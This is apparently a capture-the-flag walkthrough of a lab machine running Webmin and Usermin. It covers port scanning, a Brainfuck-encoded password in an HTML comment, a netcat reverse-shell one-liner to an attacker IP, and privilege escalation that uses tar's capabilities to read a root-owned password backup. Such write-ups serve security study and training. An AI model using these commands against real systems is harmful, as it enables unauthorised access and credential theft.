Nmap scanning the IP gets us:
Checking out port 80 gets us the default Apache2 page
Checking on the other two scanned port 10000, and 20000, gets us similarly login pages for Webmin and Usermin.
 Checking the HTML comments on the port 80 webpage we can see an encrypted message know as
Brainfuck.
Using dcode
we can get the decrypted message, which can be used as a password.
Using enum4linux, we discover the username cyber and can log in to Usermin and it and the password.
Digging through the portal we find a Command Shell tab that just runs commands, we get the first flag.
Turn on netcat and running
/tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.163 1008 >/tmp/f.
We get a reverse shell into the system
Stablizing the Shell with
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
Ctrl + z
stty raw -echo;fg
export TERM=xterm
Seeing how there is the tar file in the home directory and it being owned by root, I figured it got something with getting in.
Running the file command on tar we learn it's an executable called ELF.
We can run getcap -r / 2>/dev/null
Tar has cap_dac_read_search=ep with ep being effective and permitted.
This lets us bypass file read permission checks and directory read and execute permission checks.
Searching around, we find in the /var/backups folder there is a .old_pass.bak file but is owned by root.
With the tar file in home we can compress this file and then decompress to get around the perms.
./tar -cf pass.tar /var/backups/.old_pass.bak
./tar -xf pass.tar
This creates a new copy of the var directory with perms compatiable with us allow to cat the .bak file.
A password is in the file, which allows us to log in to the Webmin portal with username root.
Using the same Command Shell tab in Webmin, we can cat the root flag.
